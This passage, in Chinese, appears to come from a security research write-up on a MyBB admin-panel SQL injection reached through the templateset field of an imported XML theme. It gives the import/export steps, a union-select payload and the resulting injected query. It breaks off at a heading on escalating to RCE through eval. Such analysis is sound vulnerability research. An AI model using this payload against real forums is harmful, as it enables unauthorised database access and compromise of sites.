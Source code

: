 
简单走了一遍导入流程可知， `export` action 中的 `$properties['templateset']` 就是 XML 中 `properties` 标签里头的 `templateset` 标签

### <a class="reference-link" name="%E5%90%8E%E5%8F%B0SQL%E6%B3%A8%E5%85%A5"></a>后台SQL注入

综上所述，SQL注入的触发流程为：
1. 导入一个恶意 XML格式的主题，`properties` 标签中的 `templateset` 为 SQL payload
1. 导出该恶意主题。使 `templateset` payload 注入
下载默认 Theme。修改 `templateset` 值为

ps：由于这个注入查询的是 `mybb_templates` 表，该表数据量贼大，如果直接用 `or sleep(1)#` 会导致卡死

```
&lt;templateset&gt;&lt;![CDATA[0' union select 1,2,3,4,5,6,7#]]&gt;&lt;/templateset&gt;
```

**导入**主题之后，直接去翻数据库可以发现， `templateset` 的值已经成功被修改

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01c1d913814b41bd82.png)

再尝试**导出**对应 `tid` 的主题，调试如下：

```
......
//$properties['templateset'] 值为 ' and sleep(5)#   
$query = $db-&gt;simple_select("templates", "*", "sid='".$properties['templateset']."'");

//[(call) 调用了 simple_select() 方法，simple_select()的代码 ]
function simple_select($table, $fields="*", $conditions="", $options=array())`{`

    $query = "SELECT ".$fields." FROM ".$this-&gt;table_prefix.$table;

    if($conditions != "")
    `{`
        $query .= " WHERE ".$conditions;
    `}`
    //此时的 $query值为
    // SELECT * FROM mybb_templates WHERE sid='0' union select 1,2,3,4,5,6,7#'
    .......
    $query = @mysqli_query($this-&gt;read_link, $string);
    ......
    //执行SQL，return $query  
`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01bddb697ecce51cd8.png)

成功注入！

### <a class="reference-link" name="%E6%B1%A1%E6%9F%93%20eval%20%E5%AF%BC%E8%87%B4%20RCE"></a>污染 eval 导致 RCE
